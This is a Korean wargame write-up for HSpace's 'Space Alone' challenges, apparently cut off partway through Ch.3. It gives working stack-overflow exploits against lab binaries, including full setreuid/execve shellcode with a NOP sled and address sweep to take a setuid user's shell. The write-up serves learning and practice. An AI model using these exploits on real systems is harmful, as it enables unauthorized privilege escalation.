HSpace의 시스템해킹 워게임 **Space Alone**을 Ch.1부터 Ch.10까지 전부 클리어하며 정리한 라이트업이다. 스택 오버플로우 기초부터 ROP·ret2libc·포맷 스트링까지 단계별로 다룬다.

> 대상 워게임: [hspace-io/Space_Alone](https://github.com/hspace-io/Space_Alone)

**챕터 바로가기**

<nav class="chapter-index" id="chapter-index" aria-label="챕터 바로가기">
  <a href="#ch-1"><b>Ch.1</b><span>오버플로우로 스택 변수 변조 → admin 계정으로 로그인 → 클리어.</span></a>
  <a href="#ch-2"><b>Ch.2</b><span>셸코드 주입 → 오버플로우로 셸코드를 스택에서 실행 → 셸코드가 setreuid로 권한을 고정하고 /bin/sh 실행 → 다음 챕터(Breaking) 셸 획득 → 클리어.</span></a>
  <a href="#ch-3"><b>Ch.3</b><span>오버플로우로 리턴 주소를 win함수로 덮어 → system(&quot;/bin/sh&quot;) 실행 → 다음 유저(Scavening) 셸 획득 → 클리어.</span></a>
  <a href="#ch-4"><b>Ch.4</b><span>read() 오버플로우(NX 때문에 셸코드 실행 불가) → ROP 체인으로 system(&quot;/bin/sh&quot;) 호출. libc는 유출(&amp;read)로 주소 계산. → 셸 획득</span></a>
  <a href="#ch-5"><b>Ch.5</b><span>목표: setuid 바이너리 ips(소유자 = 다음 유저 Crisis_at_the_Vault)를 익스플로잇해서</span></a>
  <a href="#ch-6"><b>Ch.6</b><span>canary leak &amp; libc leak → libc base → libc gadget exploit</span></a>
  <a href="#ch-7"><b>Ch.7</b><span>OOB write(임의 쓰기)로 __stack_chk_fail@got를 덮어 카나리를 우회 → startup BOF로 ROP → puts(puts@got)로 libc leak → system(&quot;/bin/sh&quot;)</span></a>
  <a href="#ch-8"><b>Ch.8</b><span>FSB 이용 → printf@got 주소에 win 함수 덮기</span></a>
  <a href="#ch-9"><b>Ch.9</b><span>ret2libc( loop 우회)</span></a>
  <a href="#ch-10"><b>Ch.10</b><span>포맷 스트링(%n)으로 파일 출력 우회 → 임의 주소 쓰기</span></a>
</nav>

## Ch. 1

> 오버플로우로 스택 변수 변조 → admin 계정으로 로그인 → 클리어.
> 

### 1. 문제 분석




재밌는? 무서운? 아포칼립스 상황과 함께, CH.1 에 들어섰다. 일단 아무것도 모르니 ls 를 입력해 파일이 뭐가 있는지 확인해보았다. 



MV라는 바이너리와, 해당 바이너리의 소스코드가 주어져있었다. MV 바이너리를 실행시켜보니 ID와 PW를 입력받고 있단걸 알 수 있었다. 



#### 보호기법 확인



checksec을 통해 보호기법을 가볍게 확인해주고, 바로 MV.c 소스코드를 확인해보았다.

#### 소스코드 분석

`main()`을 보면 로그인 성공  분기가 두 개다.

```c
int main()
{
    int cmp1 = 3, cmp2 = 3, cmp3 = 3, cmp4 = 3;
    char admin[10] = "deny", id_input[20], pw_input[20];

    system("clear");

    printf("ID: ");
    scanf("%s", id_input);
    printf("PASSWORD: ");
    scanf("%s", pw_input);
    sleep(1);
    if(strncmp(id_input, "admin", 5) == 0) printf("%s\n", admin);
    sleep(1);

    cmp1 = strncmp(id, id_input, 10);
    cmp2 = strncmp(pw, pw_input, 19);
    cmp3 = strncmp(id_input, "admin", 5);
    cmp4 = strncmp(admin, "confirm", 7);

    if(cmp1 == 0 && cmp2 == 0){ //여기서 user로 로그인된다. 
        printf("Wellcome Back!\n");
        menu();
        exit(0);
    }
    
    if(cmp3 == 0 && cmp4 == 0){ //여기로 로그인하면 admin으로 간다.
        system("clear");
        printf("Redirect to Admin page\n");

        sleep(1);
        printf(".......\n");
        sleep(1);
        printf(".......\n");
        sleep(1);
        printf(".......\n");
        sleep(1);
        printf(".......\n");
        sleep(1);
        printf(".......\n");

        system("clear");

        root(); 
        // 이 부분에서 admin page가 열리고 2번을 선택하면 .TOP_SECRET을 읽을 수 있게 된다

        exit(0);
    }
```

진짜 비밀번호는 `root()` 안의 `file_read(".TOP_SECRET")`로만 읽을 수 있다. 즉 CH1의 **목표는 admin 로그인이다.**

admin 분기 조건:

```c
cmp3 = strncmp(id_input, "admin", 5);   // ID가 "admin"으로 시작
cmp4 = strncmp(admin, "confirm", 7);    // admin 변수가 "confirm"
```

- `cmp3`은 ID에 그냥 `admin`을 넣으면 된다.
- 문제는 `cmp4`다. `char admin[10] = "deny"`라서  admin 값은 `"deny"`로 고정이라 `"confirm"`과 비교하면 당연히 0이 아니다(deny≠confirm). **admin의 "deny"를 "confirm"으로 바꿔야 한다.**

### 2. 발견한 취약점

```c
scanf("%s", id_input);   // id_input[20]
scanf("%s", pw_input);   // pw_input[20]
```

`scanf("%s")`는 **길이 제한이 없다.** input별 버퍼 크기(20)보다 길게 넣으면 스택에서 인접한 변수를 덮어쓸 수 있다. 이걸로 `admin` 변수를 `"confirm"`으로 바꾸면 버퍼오버플로우를 통한 익스플로잇이 가능할 것이다.

### 3. 접근 방법

이 문제는 바이너리를 **실행하지 않고 `disass main`만으로** 풀린다. 필요한 정보(입력 버퍼 위치, admin 위치)가 전부 쉽게 드러나기 때문이다.

```bash
gdb -q ./MV
pwndbg> disass main     # r 안하고 정적으로만 분석해서 풀이 가능.
```

> 처음엔 동적으로 보려고 `strncmp`에 브레이크를 걸고 실행하려 했다. 하지만 ① 원본은 setuid라 디버깅 불가(`/proc/PID/mem Permission denied`), ② 복사본으로 붙으니 `system("clear")`가 fork한 자식 프로세스(`/usr/bin/clear`)로 gdb가 따라 들어가 엉뚱한 곳에서 `strncmp` 브레이크가 터졌다. 이런 삽질 과정을 반복하다가, 생각해보니 **결국 정적 분석 하나로 끝나는 거라 동적 디버깅 자체가 필요 없었다.**
> 

### 4. 스택 레이아웃 분석

`disass main`에서 각 변수의 rbp 기준 위치를 확인했다.

```
sub rsp, 0x50                          ; 스택 프레임 (카나리 없음)
lea rax,[rbp-0x30] ; scanf → id_input  →  id_input = rbp-0x30
lea rax,[rbp-0x50] ; scanf → pw_input  →  pw_input = rbp-0x50
mov [rbp-0x1a], 0x796e6564 ("deny")    →  admin    = rbp-0x1a
```

| 변수 | 위치 | 비고 |
| --- | --- | --- |
| pw_input[20] | rbp-0x50 | 가장 낮은 주소 |
| id_input[20] | rbp-0x30 |  |
| **admin[10]** | **rbp-0x1a** | 타겟 |
| cmp4 ~ cmp1 | rbp-0x10 ~ rbp-0x4 |  |

**스택 카나리가 없다 →** 그냥 편하게 오버플로우 가능하다.

### 5. 오프셋 계산 (+ 방향 규칙)

- **스택이 자라는 방향** (아래로 자란다): 높은 주소 → 낮은 주소
- **버퍼에 값을 쓰는 방향** (`buf[0], buf[1]...`): 낮은 주소 → 높은 주소

오버플로우는 **항상 더 높은 주소 쪽을 덮는다.** 따라서 **덮을 목표는 넘칠 버퍼보다 높은 주소에 있어야 한다.** (처음에 소스코드를 복사해,`test`란 바이너리를 만들고 확인해보니, 이 상황이 거꾸로돼서 `admin[10]`을 못덮어쓰는 상황이라, 당황했다가 언더플로우를 유도해야하나? 생각했으나 혹시나 하고 MV 바이너리를 그냥 정적분석 해보니 쉽게 풀렸다. 컴파일러 차이 때문에 이렇게나 달라질 수 있다는걸 체감했다…)

admin(`-0x1a`)은 id_input(`-0x30`)보다 숫자가 작으니 **더 높은 주소** → id_input에 오버플로우로 값을 덮어, admin 값 변경이 가능해진다. 

```
패딩 크기 = (id_input 오프셋) - (admin 오프셋) = 0x30 - 0x1a = 0x16 = 22
```

메모리 그림 (rbp = 0x...e340 가정):

```
						주소          내용
낮은주소 0x...e310  ← id_input[0]   (rbp-0x30)   ← 쓰기 시작
				0x...e311  ← id_input[1]
				  ...          ↓
				0x...e325  ← id_input[21]
				0x...e326  ← admin[0]      (rbp-0x1a)   ← 22바이트일 때 도착
높은주소	0x...e327  ← admin[1]
```

> pw_input(rbp-0x50)은 id_input(rbp-0x30)보다 **아래(낮은 주소)**라서, 위로 넘치면 중간에 있는 id_input을 먼저 덮어써버린다. 그러면 먼저 입력해둔 `"admin"`이 지워져 `cmp3`이 깨지므로  공격이 무의미해진다. 그래서 공격은 id_input으로 진행해야 한다.
> 

### 6. Exploit

ID 입력 순간에 `cmp3`(앞 5글자 admin)와 `cmp4`(admin="confirm")를 동시에 만족시키게끔 만든다.

```
ID = "admin" + "A"*17 + "confirm"
      └ 5 ┘    └ 17 ┘    ← 22바이트째(admin 자리)부터 confirm
PW = 아무거나 입력해도 된다. 차피 if 조건 전부 만족시켜서 의미 없다.
```

- `admin` (5) → `cmp3` 통과
- `A`17 (17) → 패딩 (5 + 17 = 22)
- `confirm` → admin 위치에 덮임 → `cmp4` 통과
- user 분기는 건너뛰고 admin 분기로 진입

Exploit에 쓰인 코드는 아래와 같다

```bash
from pwn import *

p = process('./MV')

payload = b"admin" + b"A"*17 + b"confirm"

p.sendline(payload)   # ID
p.sendline(b'aaaa')   # PASSWORD

p.interactive()
```

`root()`에 진입하면 ADMIN 메뉴가 뜬다. 여기서 2번을 선택하면 `file_read(".TOP_SECRET")`가 실행되어 다음 스테이지 비밀번호가 출력된다.

### 7. Clear



[↑ 챕터 목록](#chapter-index)


## Ch. 2

> 셸코드 주입 → 오버플로우로 **셸코드**를 스택에서 실행 → 셸코드가 `setreuid`로 권한을 고정하고 `/bin/sh` 실행 → **다음 챕터(Breaking) 셸** 획득 → 클리어.
(File_Decoder 바이너리의 주인이 breaking 이고 setuid가 걸려있으면 파일 주인의 권한으로 도는거니까 breaking 권한으로 바이너리가 도는건데, 이렇게 도는 와중에 버그로 코드 실행을 뺏으면 내가 실행시키는 코드가 breaking 권한으로 실행되는거고 여기서 쉘코드 주입시킨걸 실행시키니까 breaking의 셸을 얻어서 다음 레벨로 갈 수 있다)
> 

---

#### 1. 문제 파악



##### 1-1. 코드 분석

`File_Decoder`는 **setuid(Breaking) 바이너리** (주인이 Breaking이고 setuid 비트가 걸려 있음).

```c
int main(){
    char serial[256];
    printf("Serial Number: ");
    gets(serial);                               // ← 취약점: 별도의 길이 검사 없음
    if(strlen(serial)==29 && strcmp(serial,srl)==0)
        print_file();                           // 시리얼 맞으면 .Real_Top_Secret 출력
    return 0;
}
```

- `gets()`는 입력 길이를 검사하지 않음 → `serial[256]` 이니까 256 넘기면 SBO 공격 가능.
- 바이너리 안에 **win 함수가 따로 없다** → 리턴 주소를 "이미 있는 함수"로 보낼 수 없음 → **셸코드를 직접 넣어야 함**.

##### 1-2. 보호기법 확인 (checksec)

```
Arch:     i386-32-little      ← 32비트
RELRO:    No RELRO
Stack:    No canary found     ← 스택 카나리 없음 → 그냥 덮어씌우기 가능
NX:       NX 꺼짐 (Executable)← 스택에서 코드 실행 가능 → 셸코드 주입+실행 가능
PIE:      No PIE              ← 코드 주소 고정
```

추가로 `cat /proc/sys/kernel/randomize_va_space` → **0 (ASLR도 꺼져있다)** 

---

#### 2. Exploit 아이디어

1. `gets`로 `serial`을 넘치게 해서 **리턴 주소**를 덮는다.
2. 리턴 주소를 **주입한 셸코드의 스택 주소**로 덮는다.
3. `main`이 `ret`하는 순간 → 셸코드 실행 → 셸 획득

###### offset 계산

disass로 확인

- `serial` 버퍼 = `ebp-0x108`
- 리턴 주소 = `ebp+4` (32비트는 프롤로그 `push ebp; mov ebp,esp` 때문에 항상 ebp+4 이다. 64비트는 rbp+8)
- 오프셋 = `0x108 + 4` = **268**

> `serial`은 256바이트지만, 프롤로그의 `push edi; push ebx`가 중간에 8바이트를 끼워넣고, 저장된 ebp 4바이트까지 더해져서: 256 + 4(ebx) + 4(edi) + 4(saved ebp) = 268.
> 

---

#### 3. ShellCode

바이너리에 win 함수가 없으니 shellcode를 직접 주입한다

```nasm
xor eax,eax ; mov al,49 ; int 0x80      ; eax = geteuid()
mov ebx,eax ; mov ecx,eax
xor eax,eax ; mov al,70 ; int 0x80      ; setreuid(euid, euid)

; execve("/bin/sh", 0, 0)  — 셸 실행
xor eax,eax ; push eax                   ; 문자열 끝 NULL
push 0x68732f2f ; push 0x6e69622f        ; "/bin/sh"를 스택에주입
mov ebx,esp                              ; ebx = "/bin/sh" 주소
xor ecx,ecx ; xor edx,edx
mov al,11 ; int 0x80                     ; execve 호출
```

핵심: `execve`에 넘길 `"/bin/sh"` 문자열을 **스택에 `push`로 쌓는다**. (이 push 때문에 나중에 엄청 고생했다. 5번 참고)

---

#### 4. uid / euid / setuid / setreuid

> 이 개념들을 모호하게 알고 있어서 계속 막혔다.
> 

##### 신분증 두 개

프로세스는 신분증을 2개 가진다:

- **ruid (real uid)**: "원래 실행한 사람". 잘 안 바뀜.
- **euid (effective uid)**: "지금 권한에 쓰이는 신분". **파일 접근 권한은 euid로 결정한다.**

평소엔 둘이 같다 (ruid = euid = 나).

##### setuid 비트

setuid 비트가 걸린 파일을 실행하면 → **euid가 그 파일 주인으로 바뀐다** (ruid는 그대로).

`File_Decoder`(주인이 Breaking인 바이너리)를 내가 실행하면:

```
ruid = Decoding (나)
euid = Breaking (파일 주인)   ← 권한은 이걸로 적용된다 → 이걸 이용하면? Breaking 파일에 접근이 가능해진다.
```

##### 문제: `/bin/sh`가 권한을 떨군다 (이거 때문에 좀 고생함…)

그냥 `execve("/bin/sh")`만 하면 끝일 것 같지만 아니다. `/bin/sh`(dash)는 보안상 **"euid ≠ ruid면 수상하다"며 euid를 ruid로 되돌려** 버린다.

```
셸코드가 그냥 execve("/bin/sh")만 하면
→ euid가 Breaking → Decoding으로 떨어짐
→ 떠버린 셸은 그냥 Decoding 권한. 쓸모 없음.
```

즉 **euid가 Breaking이어도, 셸을 켜는 순간 떨궈지면서 Breaking 권한을 못 쓴다.** 권한이 Decoding으로 떨어지면 Breaking 전용 파일(예: `.gdbinit`, `.bashrc`, Breaking 홈)은 그대로 `Permission denied`다. (실제로 Decoding 셸에서 그 파일들 `cat` 해보니 전부 Permission denied.)

##### 해결법: `setreuid(euid, euid)`

셸을 켜기 **직전에** ruid까지 euid와 같게 맞춘다:

```
setreuid(Breaking, Breaking)   ; ruid = euid = Breaking
```

이러면 `euid == ruid`라서 `/bin/sh`가 **안 떨군다** → **Breaking 셸 획득**

---

#### 5. 페이로드 구조 설계 중 문제/해결

##### 문제 1 — 셸코드 주소를 정확히 모름

리턴 주소를 "스택의 셸코드 위치"로 덮어야 하는데, gdb(복사본)와 실제 실행의 스택 주소가 환경 차이로 조금씩 다르다. 

**이 문제를 NOP 썰매(sled)로 해결했다** `\x90`(NOP) = "걍 바로 다음 바이트로 넘어가라". 이걸 도배해두면 리턴 주소가 그 구간 **어디에 떨어지든** NOP을 타고 쭉 내려가 **셸코드에 도착**한다. 

**스윕(sweep)으로 보강**
"대략"은 불확실해서, 리턴 주소를 범위 안에서 **0x20씩 바꿔가며 자동으로 여러 번** 쏜다. (ASLR, PIE 없으므로 주소가 고정이라 가능했다.)

##### 문제 2 — 셸코드 손상

주소를 맞춰 셸코드에 도달했는데도 **계속 크래시**났다. 문제 원인은 **셸코드 배치**였다.

버퍼 시작을 **S**라 하자. 리턴 후 `esp = S+272`.

깨진 배치 `[ NOP 231 ][ 셸코드 37 ][ ret ]` → 셸코드가 `S+231 ~ S+267`(버퍼 끝):

```
셸코드가 /bin/sh를 push 하면 (esp = S+272부터 아래로):
 push → [S+268]
 push → [S+264]   ← 셸코드 영역(S+231~267) 안
 push → [S+260]   ← 셸코드 영역 안
```

**push가 쓰는 자리랑 셸코드가 겹쳐서**, 아직 실행 안 한 셸코드 뒷부분(execve)이 덮여 깨진다.

**→ 셸코드를 앞쪽으로 옮겨 해결**`[ NOP 96 ][ 셸코드 ][ NOP sled ][ ret ]` → 셸코드가 `S+96 ~ S+132`(앞쪽):

```
push가 쓰는 곳 = S+260, S+264, S+268  (리턴 근처, 높은 주소)
셸코드 위치     = S+96 ~ S+132         (낮은 주소)
→ 서로 멀어서 안 겹친다 → 셸코드 멀쩡히 실행된다
```

> 교훈: push는 항상 리턴 주소 근처(높은 주소)에서 아래로 쓴다. 그러니 셸코드는 반대편(버퍼 앞쪽, 낮은 주소)에 둬야 자기 자신을 안 부신다.
> 

##### 최종 페이로드 모양

```
[ NOP 96개 ][ 셸코드 37B ][ NOP 채움 ][ 리턴 주소(NOP Sled)]
└──────────────── 268바이트 ────────────────┘   └ ebp+4, 4B ┘
```

---

#### 6. 최종 Exploit 코드

```python
from pwn import *
context.arch='i386'; context.os='linux'; context.log_level='error'
exe='/home/Decoding_for_Escape/File_Decoder'

### 셸코드: setreuid(euid,euid) 후 execve("/bin/sh")
sc = asm('''
 xor eax,eax; mov al,49;  int 0x80            # geteuid()
 mov ebx,eax; mov ecx,eax; xor eax,eax; mov al,70; int 0x80   # setreuid(euid,euid)
 xor eax,eax; push eax; push 0x68732f2f; push 0x6e69622f
 mov ebx,esp; xor ecx,ecx; xor edx,edx; mov al,11; int 0x80   # execve("/bin/sh")
''')

pre  = 0x60
body = b'\x90'*pre + sc                 # 셸코드를 앞쪽에
body += b'\x90'*(268 - len(body))       # 리턴 직전까지 NOP로 채움

### 리턴 주소를 범위에서 sweep (NOP sled 위 아무 데나 올라가면 성공)
for addr in range(0xffffd500, 0xffffc700, -0x20):
    p = process(exe)
    p.sendline(body + p32(addr))
    p.sendline(b'echo PWNED; id')
    try:
        p.recvuntil(b'PWNED', timeout=0.5)
        log.warning('HIT @ %#x', addr)
        p.interactive(); break          # 성공 → 셸
    except EOFError:
        p.close()
```

---

#### 7. Clear(?)

##### (1) id로 권한 확인

셸코드가 터져 `$` 프롬프트가 뜬 뒤:

```
$ id
uid=503(Breaking_Through_for_Survival) gid=502(Decoding_for_Escape)
```

원래 `uid=502(Decoding)`였는데 **`uid=503(Breaking)`**으로 바뀌었다. 즉 권한 상승 성공한 것이고 다음 챕터의 유저가 된 것이다.
**Ch.2 클리어**.

##### (2) ls로 다음 과제 확인

Breaking 셸에서:

```
$ ls -al /home/Breaking_Through_for_Survival/
-rwsr-xr-x 1 Scavening_for_Survival ... stage3      ← Ch.3 (setuid 바이너리)
-rw-r--r-- 1 root                   ... stage3.c    ← Ch.3 코드
```

---

#### 8. 여담

```python
암호화 방법: 3중 AES (키 1: Arkea_45678 | 키 2: Lunar_2024 | 키 3: Theta-XZ1)
추가 코드: "이클립스. 모든 것이 보이는 대로는 아니다. 답은 빛이 도달할 수 없는 곳에 있다."
```

처음엔 위 내용을 보고 암호를 풀어야하나 하고 초반에 삽질을 좀 했다. 내가 모르는? 힌트나 비밀이 있는 것 같은데 잘 모르겠다…

---

#### 9. 부록. 셸 환경 개선

##### 문제점

얻은 셸의 stdin/stdout이 **pwntools의 파이프**에 연결돼 있어서, 진짜 터미널 장치(TTY)가 없었다. 

- vi, sudo 등 **TTY를 요구하는 프로그램이 "Input is not from a terminal"로 거부**
- 페이로드 전송이 끝나면 **stdin이 EOF → 셸이 즉시 종료**
- SSH 안에 셸이 중첩되면서 **입력이 화면에 반복 렌더링되는 노이즈**

##### 문제 원인

**파이프에는 TTY 기능(raw 모드,화면 제어,시그널)이 없다.** 그래서 터미널이 필요한 프로그램이 동작하지 않고, 입력이 끝나면 바로 EOF가 된다.

> 
> 
> - **raw 모드** — 입력을 한 글자씩 즉시 전달 (엔터 안 기다림). 반대는 cooked(줄 단위) 모드.
> - **화면 제어** — 커서 이동·화면 지우기·색깔 등(제어코드 처리), 창 크기(rows×cols) 조회.
> - **시그널** — Ctrl-C(SIGINT)·Ctrl-Z(SIGTSTP) 같은 잡 컨트롤.

##### 시도: 처음부터 PTY로 띄우기

`process(..., stdin=PTY, stdout=PTY)`를 주면, pwntools가 프로세스를 **파이프가 아니라
가짜 터미널(PTY) 위에서** 실행한다.

단, **PTY는 입력을 echo(되울림)** 하므로, 스윕 성공 판정을 내 입력에 들어있는 문자열
(`PWNED` 등)로 하면 안된다. → `id`의 출력인 **`uid=`** 처럼 실행 결과로만
나오는 문자열로 판정하도록 바꿨다.

> PTY는 **내 입력을 화면에 다시 출력하니까**, 판정 기준을 ”내가 친 글자(`PWNED`)”로 하면 셸이 없어도 그 글자가 보여서 거짓 성공이 난다. → ”명령을 실행해야만 나오는 출력(`id` → `uid=`)”으로 판정해야 진짜 셸만 걸러낸다.
> 

##### 변경된 익스플로잇

```python
from pwn import *
context.arch='i386'; context.os='linux'; context.log_level='error'
exe='/home/Decoding_for_Escape/File_Decoder'

### setreuid(euid,euid) 후 execve("/bin/sh")  — 권한 유지 보장
sc = asm('''
 xor eax,eax; mov al,49;  int 0x80                              /* geteuid() */
 mov ebx,eax; mov ecx,eax; xor eax,eax; mov al,70; int 0x80     /* setreuid(euid,euid) */
 xor eax,eax; push eax; push 0x68732f2f; push 0x6e69622f
 mov ebx,esp; xor ecx,ecx; xor edx,edx; mov al,11; int 0x80     /* execve("/bin/sh") */
''')

pre  = 0x60
body = b'\x90'*pre + sc
body += b'\x90'*(268 - len(body))          # 리턴 직전까지 NOP (offset 268)

for addr in range(0xffffd500, 0xffffc700, -0x20):   # 스택 주소 스윕
    p = process(exe, stdin=PTY, stdout=PTY)          # 처음부터 PTY
    p.sendline(body + p32(addr))
    p.sendline(b'id')                                # 판정용
    try:
        p.recvuntil(b'uid=', timeout=0.5)            # 실행결과로만 나오는 uid= 로 판정
        log.warning('HIT @ %#x', addr)
        p.interactive(); break
    except EOFError:
        p.close()
```

##### 익스플로잇 결과

`process(..., stdin=PTY, stdout=PTY)`로 **가짜 터미널(PTY)** 위에서 띄워봤다.

- `tty`가 `/dev/pts/N`을 반환하고 `vi`가 **거부 없이 실행은 됐다**(장치는 붙음).
- 하지만 중첩 셸에선 `TERM`·터미널 크기가 안 맞아 **`vi`·`clear` 화면이 여전히 깨졌다.** → 여전히 문제



##### 반전

GitHub 페이지에서 이 워게임의 **커스텀 명령어**(`cmd`, `story`, `chap`, `status`, `next`)를 발견했다. 다음 비번은 **`status` 한 줄이면** 나오고, 이건 단순 명령이라 **중첩 셸에서도 깨끗하게** 출력된다.


###### 결과

익스로 셸을 얻은 뒤 `status` 실행:



→ 다음 챕터 비번 바로 확보.

[↑ 챕터 목록](#chapter-index)


## Ch. 3

> 오버플로우로 리턴 주소를 win함수로 덮어 → `system("/bin/sh")` 실행 → **다음 유저(Scavening) 셸** 획득 → 클리어.
(Ch.2와 유사한데 좀 더 쉽다.)
> 

---

### 1. 문제 분석

#### 1-1. 코드 확인

**Ch3은 setuid(Scavening) 바이너리이다**. 코드에서 , 중요한 건 아래 두 곳이다.

```c
void shell(){
    check_value = 1;
    system("/bin/sh");          // 여기로 점프시키면 셸 얻고 끝
}

void Open_Door(){
    char password[20];
    printf("Enter Password : ");
    scanf("%s", password);      // <- %s에서 길이 검사 안한다. 즉 취약점.
}
```

- `scanf("%s", password)`는 길이 제한이 없다 → `password[20]`보다 길게 넣으면 바로 **SBO**.
- 바이너리 안에 `shell()`이 **이미 있다** → Ch2 처럼 셸코드를 만들 필요 없이 **리턴 주소를 `shell()` 주소로** 덮기만 하면 된다(**ret2win)**
- 타겟: 메뉴 `[5] Open Door` → `Open_Door()`의 scanf.

#### 1-2. 보호기법 확인

```
TERM=xterm checksec --file=./stage3 
//그냥 하던데로 checksec 해버리면 에러가 뜬다.
checksec이 터미널 기능을 사용하기 위해 terminfo DB를 찾는데, 지금 셸의(ch2에서 직접 주입한 셸) TERM이 비어있거나 이상해서 이렇게 된다. TERM=xterm으로 TERM에 xterm 넣어주고 checksec을 사용하면 일시적으로나마 정상사용 가능하다.
```



```python
cat /proc/sys/kernel/randomize_va_space
/* 0=OFF, 1=부분ON, 2=완전ON. 
바이너리 자체 코드 주소는 ASLR이 아니라 PIE 여부가 좌우한다. ASLR은 스택,libc 주소를
랜덤화 한다. */
```

| 값 | 의미 |
| --- | --- |
| **0** | ASLR **꺼짐** — 스택/라이브러리/힙 주소 전부 고정  |
| **1** | **부분** ON — 스택, mmap 영역(공유 라이브러리/libc), VDSO 랜덤화. **힙(brk)은 고정** |
| **2** | **완전** ON — 1에 더해 **힙(brk)까지** 랜덤화 (리눅스 기본값) |



**No canary + No PIE** → 오프셋만 맞춰 win함수 고정 주소로 덮으면된다. ASLR도 꺼져있다.

---

### 2. Exploit 아이디어

1. 메뉴에서 `5` → `Open_Door` 진입.
2. `password`를 오버플로우 → **리턴 주소를 `shell()` 주소로 덮어쓰기**.
3. `Open_Door`가 `ret`하는 순간 → `shell()` → `system("/bin/sh")` → 셸 획득

#### 2-1. Offset 계산

`Open_Door` 디스어셈블을 보면:

```nasm
push ebp
mov  ebp, esp
push ebx
sub  esp, 0x14
...
lea  -0x18(%ebp), %eax      ; <- scanf에 넘길 버퍼 = password = ebp-0x18
...
call scanf
```

- `password` 버퍼 = **`ebp-0x18`**
